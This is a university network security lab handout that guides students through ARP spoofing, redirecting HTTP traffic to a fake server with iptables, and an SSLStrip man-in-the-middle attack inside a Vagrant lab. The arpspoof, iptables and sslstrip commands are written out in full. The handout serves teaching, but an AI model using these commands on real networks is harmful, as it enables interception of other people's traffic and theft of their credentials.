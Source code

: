 # CSCD27 Lab 8: ARP spoofing and SSLStripping

## Vagrant Setup

Make sure to setup your environment as described in the [Vagrant Setup Guideline](https://github.com/ThierrySans/CSCD27-F16/blob/master/assignments/02/VAGRANT.md).

## Initial check

*As Alice*, test that Mathlab is reachable:

```shell
vagrant@alice:~$ curl http://mathlab.utsc.utoronto.ca/
```

## ARP Spoofing (Denial Of Service)

In this part, Mallory wants to disrupt the communication between Alice and the Gateway. To do so, Mallory will broadcast spoofed ARP packets to Alice saying that the gateway can be reached through Mallory's physical address.

*As Mallory (terminal 1), broadcast spoofed ARP messages to Alice (10.0.1.101) pretending to be the gateway (10.0.1.100):

```shell
vagrant@mallory:~$ sudo arpspoof -i eth1 -t 10.0.1.101 10.0.1.100
```

Finally:

- *As Alice*, test that Mathlab is no longer reachable.
- *As Mallory*, use Wireshark to see ARP spoofed messages and failed TCP messages

## ARP Spoofing (fake HTTP server)

In this part, rather than disrupting the communication between Alice and the Gateway, Mallory wants to setup a fake HTTP server pretending to be Mathlab. To do so, Mallory will first redirect HTTP messages to a fake server before spoofing the ARP messages.

*As Mallory* (terminal 1), start a fake HTTP server listening on port 8080

```shell
vagrant@mallory:~$ cd /vagrant/mallory/fake_http
vagrant@mallory:~$ python -m SimpleHTTPServer 8080
```

*As Mallory* (terminal 2), redirect HTTP traffic (coming from eth1 on port 80) to the fake HTTP server on Mallory's:

```shell
vagrant@mallory:~$ sudo bash -c "echo '1' > /proc/sys/net/ipv4/ip_forward"
vagrant@mallory:~$ sudo iptables -t nat -A PREROUTING -p tcp -i eth1 --dport 80 -j DNAT --to-destination 10.0.1.102:8080
```

*As Mallory* (terminal 2), broadcast spoofed ARP messages as done previously

Finally:

- *As Alice*, test that Mathlab is now reachable (but is it really mathlab?)
- *As Mallory*, use Wireshark to see the (fake) HTTP exchange

## Understanding HTTPS redirects

Before starting with this part, make sure to stop any ARPSpoofing you might have started.

As you may have noticed, it is possible to browse `mathlab.utsc.utoronto.ca` using both HTTP and HTTPS. You can also use curl to show the differences.

*As Alice*, use the `-v` option in curl to show the difference between HTTP abd HTTPS:

```shell
vagrant@alice:~$ curl -v http://mathlab.utsc.utoronto.ca/
vagrant@alice:~$ curl -v https://mathlab.utsc.utoronto.ca/
```

In practice, it is *strongly not recommended* to have the same content served with HTTP and HTTPS (see note about [mixed content](https://developer.mozilla.org/en-US/docs/Web/Security/Mixed_content)). Usually, the web server is configured to serve the content with HTTPS only. However, when someone uses HTTP, the server sends back a special HTTP response (HTTP Status Code 301: Moved Permanently) saying that the page has been relocated permanently to its HTTPS location. Conveniently, most web browsers follow this redirection automatically.

As an example, we have setup `http://mathlab.utsc.utoronto.ca/courses/cscd27f16/assignment/02/server/` to work like this. If you open this page (in HTTP) on your browser, you should see that you are being redirected automatically to `https://mathlab...`.

*As Alice*, use the `-v` option in curl to show the HTTP redirect response:

```shell
vagrant@alice:~$ curl -v http://mathlab.utsc.utoronto.ca/courses/cscd27f16/assignment/02/server/
```

*As Alice*, use the `-L` option in curl to follow the HTTPS redirects automatically (like most of web browsers do):

```shell
vagrant@alice:~$ curl -L http://mathlab.utsc.utoronto.ca/courses/cscd27f16/assignment/02/server/
```

## SSLStripping attack

The SSLStripping attack is a man-in-the-middle attack that aims at relaying messages between the victim and a web server. SSLStripping does not break the SSL tunnel that is resistant to man-in-the-middle attack however it works by intercepting the HTTPS redirects (sent in plaintext) to maintain an HTTP connection with the victim. Meanwhile, it sets up a connection with the server in HTTPS. Using that setup, the attacker can get all messages sent by the victim and all responses sent back from the server.

*As Mallory* (terminal 1), start an SSLStrip proxy on port 8080:

```shell
vagrant@mallory:~$ cd sslstrip-0.9
vagrant@mallory:~$ python sslstrip.py -a -w log.txt -l 8080 -f
```

*As Mallory* (terminal 2), broadcast spoofed ARP messages as done previously

Finally:

- *As Alice*, test that `http://mathlab.utsc.utoronto.ca/courses/cscd27f16/assignment/02/server/` is now reachable with HTTP
- *As Mallory*, open the file `log.txt` and see all HTTPS traffic